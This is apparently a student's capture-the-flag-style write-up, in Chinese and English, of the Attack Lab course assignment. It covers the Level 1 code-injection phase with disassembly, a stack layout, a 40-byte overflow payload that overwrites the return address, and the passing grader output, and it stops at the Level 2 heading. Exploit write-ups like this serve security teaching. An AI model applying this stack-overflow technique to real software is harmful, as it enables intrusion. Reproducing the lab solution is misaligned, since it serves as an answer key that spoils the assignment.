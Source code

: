 # Attack Lab實驗紀錄

## Intro

This file contains materials for one instance of the **attacklab**.

Files:

```bash
ctarget
```

Linux binary with code-injection vulnerability.  To be used for phases
1-3 of the assignment.

    rtarget

Linux binary with return-oriented programming vulnerability.  To be
used for phases 4-5 of the assignment.

```bash
 cookie.txt
```

Text file containing 4-byte signature required for this lab instance.

```bash
 farm.c
```

Source code for gadget farm present in this instance of `rtarget`.  You
can compile (use flag `-Og`) and disassemble it to look for gadgets.

```bash
 hex2raw
```

Utility program to generate byte sequences.  See documentation in lab
handout.

> 開始實驗前請先閱讀attacklab.pdf文檔

## Part I: Code Injection Attacks

### Level 1

先查看原先的程式碼:

```c
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

然後我們看看`getbuf()`的實現，其實他的功能類似於`gets()`，直到遇上`\n`或`EOF`停止，這點適合我們進行攻擊

```c
unsigned getbuf(){
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

透過`./ctarget -q`執行`ctarget`後藉由輸入字串進行注入攻擊，目的是將原先`ret`返回地址的流程導向`touch1()`函式

```c
void touch1(){
    vlevel = 1;
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

使用`objdump -d ./ctarget > ctarget.s`反組譯`catarget`

`test()`的組合語言程式碼:

```asm
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	retq 
```

`getbuf()`的組合語言程式碼:

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq 
```

`touch1()`的組合語言程式碼:

```asm
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

從上面的結果不難推測出，最終要將返回地址複寫成`0x 00 00 00 00 00 40 17 c0`，此處要特別注意機器是大端還是小端

所以調用`getbuf()`後棧的狀態類似:

```
---------------------------- 
|			   |
|__________________________|
|______return address______| <-- stack + 40
|			   |
|			   |
|           buf            |
|			   |
|			   |
|__________________________| <--top of the stack
```

我們需要填充40個字元，然後再依序填入`c0 17 40 00 00 00 00 00`

官方文件有提到`HEX2TRAW`可以將文件中的hex值轉換成字元(用空白鍵區分)，然後將字串內容輸入給`ctarget`。因此只需要將

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

另存成`l1.txt`(名字自己取)，然後執行`./hex2raw < l1.txt | ./ctarget -q`語句就可以了

```
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

### Level 2





